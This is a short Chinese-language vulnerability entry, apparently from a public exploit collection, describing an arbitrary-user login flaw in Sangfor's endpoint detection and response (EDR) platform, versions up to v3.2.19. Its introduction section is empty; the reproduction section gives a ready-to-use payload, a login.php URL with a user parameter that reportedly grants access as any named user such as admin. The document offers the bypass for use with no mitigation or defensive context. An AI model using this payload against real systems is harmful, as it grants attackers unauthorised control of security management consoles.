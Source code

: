 深信服 终端检测相应平台（EDR） 任意用户登陆漏洞
===============================================

一、漏洞简介
------------

二、漏洞影响
------------

EDR \<= v3.2.19

三、复现过程
------------

payload：user后面任意填写都ok

    https://www.0-sec.org:443/ui/login.php?user=admin

![15.png](./resource/深信服终端检测相应平台(EDR)任意用户登陆漏洞/media/rId24.png)

